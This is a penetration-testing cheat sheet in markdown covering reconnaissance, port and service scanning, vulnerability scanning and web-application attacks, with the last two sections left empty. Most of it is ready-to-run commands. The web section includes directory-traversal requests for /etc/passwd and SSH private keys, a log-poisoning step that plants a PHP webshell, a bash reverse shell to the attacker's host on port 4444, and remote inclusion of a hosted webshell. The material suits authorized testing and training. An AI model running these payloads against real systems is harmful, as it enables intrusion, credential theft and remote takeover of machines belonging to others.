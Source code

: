 # PenTest Cheat Sheet [last update 09/2024]

Table of contents
- [Recon](#Recon)
- [Vulnerability Scan](#Vulnerability-Scan)
- [Web Application Security](#Web-Application-Security)


## Recon

Information Gathering, search engine:
 - https://google.com: Info about company, people, contacts, other domain, media info, external services, projects.
 - https://yandex.com: Search by images.
 - https://stract.com: Community, forums, blogs.
 - https://github.com
 - https://gist.github.com
 - https://about.gitlab.com
 - https://sourceforge.net

DNS Enumeration web-tools:
 - https://searchdns.netcraft.com
 - https://dnsdumpster.com
 - https://shodan.io: Info about technologies, subnet, service, vuls, service provider, technical informations.
 - https://search.censys.io
 - https://securityheaders.com

Domain Information:
``` bash
# DNS query
host $TARGET_DOMAIN
host -C $TARGET_DOMAIN
host -t MX $TARGET_DOMAIN   ## MX record details
host -t TXT $TARGET_DOMAIN  ## TXT record details
dig MX $TARGET_DOMAIN
dig TXT $TARGET_DOMAIN

# whois query
whois $TARGET_DOMAIN
whois $TARGET_DOMAIN -h $WHOIS_SERVER_IP
```

Subdomain Discovery:
``` bash
fierce --domain $TARGET_DOMAIN --dns-server $DNS_SERVER_IP
dnsenum $TARGET_DOMAIN
dnsrecon $TARGET_DOMAIN
gobuster vhost -u $TARGET_DOMAIN -w $WORDLIST
gobuster   dns -d $TARGET_DOMAIN -w $WORDLIST
```

HOST Discovery and PORT Scan:
``` bash
# host discovery script via ICMP request
NET="192.168.0";    ## change me
for (( i=1; i<=254; i+=1 )); IP=$(ping -c1 -W1 $NET.$i | grep -B1 " 0%" | grep ping | awk '{print $2}') && HOSTNAME=$(nslookup $NET.$i | grep net | awk '{print $4}') && echo "| $IP\t| $HOSTNAME\t|" | grep ".$i" | grep $NET
```

``` powershell
# host discovery (via powershell)
Test-NetConnection -ComputerName $TARGET_IP -Port $PORT
Test-Connection -ComputerName $TARGET_IP -TcpPort $PORT -Count 1
```

``` bash
# post scan
nc -nvv -w 1 -z $TARGET_HOST $START_PORT-$END_PORT      ## NETCAT tcp scan
nc -nvv -u -w 1 -z $TARGET_HOST $START_PORT-$END_PORT   ## NETCAT udp scan
nmap -sT -p- $TARGET_IP                 ## tcp scan, all port
nmap -sS -p- $TARGET_IP                 ## syn scan, all port
nmap -sC -p- $TARGET_IP                 ## script default, all port
nmap -sT -p- --script vuln $TARGET_IP   ## vuln script, all port
nmap -sT -p- --script all $TARGET_IP    ## all script, all port
```

Services Discovery:
``` bash
nmap -v -p 139,445 --script smb-os-discovery $TARGET_NET    ## 192.168.1.0-254
sudo nbtscan -r $TARGET_NET                                 ## 192.168.1.0/24
sudo smbmap -H $TARGET_IP                                   ## smb scan
net view \\$HOSTNAME /all                                   ## smb host in a microsoft domain
smbclient -L //$TARGET_IP                                   ## share list
smbclient //$TARGET_IP/$SHARE -U "$USER" --password="$PASS" ## access to a share

sudo nmap -sU --open -p 161 $TARGET_NET                     ## SNMP host via NMAP
onesixtyone -c 192.168.0.0/24 public                        ## find SNMP hosts
onesixtyone -c $COMMUNITY_LIST -i $IP_LIST                  ## list of community and target
snmpwalk -c $COMMUNITY -v1 -t 10 $TARGET_IP
```

## Vulnerability Scan

Base scan tools:
``` bash
sudp nmap -sT -p- $TARGET_IP                                ## check open port
sudo nmap -sT --script all $TARGET_IP -p $PORT,$PORT,...    ## all script
sudo nmap -sT --script vuln $TARGET_IP -p $PORT,$PORT,...   ## vuln script
nikto -h http://$TARGET_IP                                  ## webapp vuln scan
```

Metaspoit scan module:
``` bash
search type:auxiliary scanner                               ## list of scanner modules
use auxiliary/scanner/smb/smb_version                       ## example: user smb scan module
set RHOST $TARGET_IP                                        ## configure target host for scan module
run                                                         ## start the scan task
vulns                                                       ## vulns list (if available)
```

## Web Application Security

Get information and scan:
``` bash
sudo nmap -p80,443 --script=http-enum $TARGET_IP            ## http enum for HTTP port only
sudo nmap -p80,443 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET_IP
```

Directory brute forcing:
``` bash
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/common.txt        ## directory brute forcing
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt           ## directory brute forcing
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -b 302    ## exclude status code 302
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -x $EXT   ## search for extension (.php, .txt)
feroxbuster --url http://$TARGET_IP --depth 2 --wordlist /usr/share/wordlist/dirb/big.txt --rate-time 10    ## sub-directory
```

Useful filies:
``` bash
curl http://$TARGET_IP/robots.txt
curl http://$TARGET_IP/security.txt
curl http://$TARGET_IP/.well-know/security.txt
```

API enumeration with pattern file:
``` bash
# setup a patter file "pattern.txt" for the API name
{GOBUSTER}/v1
{GOBUSTER}/v2

# use gobuster with pattern
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -p pattern.txt

# inspect the content
curl -i http://$TARGET_IP/users/v1                      ## return a JSON
curl -i http://$TARGET_IP/users/v1/admin -w $WORDLIST   ## investigare API methods
curl -i http://$TARGET_IP/users/v1/login -w $WORDLIST   ## investigare API methods
```

Directory Traversal:
``` bash
curl http://$TARGET/index.php?page=../../../../../../../../../etc/passwd            ## file system access
curl http://$TARGET/index.php?page=%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd          ## URL encoding
curl http://$TARGET/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa ## user information, obtain SSH access: "ssh -i stolen_key user@$target"
```

Local File Inclusion:
``` bash
curl http://$TARGET/index.php -A "<?php echo system($_GET['cmd']); ?>"              ## change User-agent, add webshell in apache logs
curl http://$TARGET/index.php?cmd=$PAYLOAD                                          ## index.php include apache logs, the webshell is included

# reverse shell example (listener "nc -nvpl 4444")
curl http://$TARGET/index.php?cmd=bash -c "bash -i >& /dev/tcp/$KALI/4444 0>&1"
curl http://$TARGET/index.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$KALI%2F4444%200%3E%261%22
```

Remote File Inclusion:
``` bash
# prepare a webshell in http://$KALI:8000
curl http://$TARGET/index.php?page=http://$KALI:8000/webshell.php?cmd=pwd
```

PHP wrapper:
``` bash
##########
##########
########## TODO
##########
##########
```

File Upload:
``` bash
```